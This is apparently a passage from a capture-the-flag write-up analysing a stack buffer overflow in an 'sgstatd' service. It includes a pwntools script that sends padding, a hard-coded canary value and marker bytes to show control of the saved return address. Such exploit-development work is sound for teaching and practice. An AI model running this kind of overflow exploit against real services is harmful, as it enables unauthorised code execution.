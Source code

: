 If you follow the code from the previous breakpoint that was set, we find out that the overflow actually overwrote the return function pointer in sgstatd function. This pointer is located just 4 bytes after the canary value as shown below

![10](img/10.png)

We can confirm it with the following script

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

pwn = 'A'*0x68
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'	# this will go into ebp due to 'leave'
pwn += 'CCCC'	# this will go into eip due to 'ret'
pwn += 'D'*(0xc8-0x68-0x8)
conn.send(pwn)
```
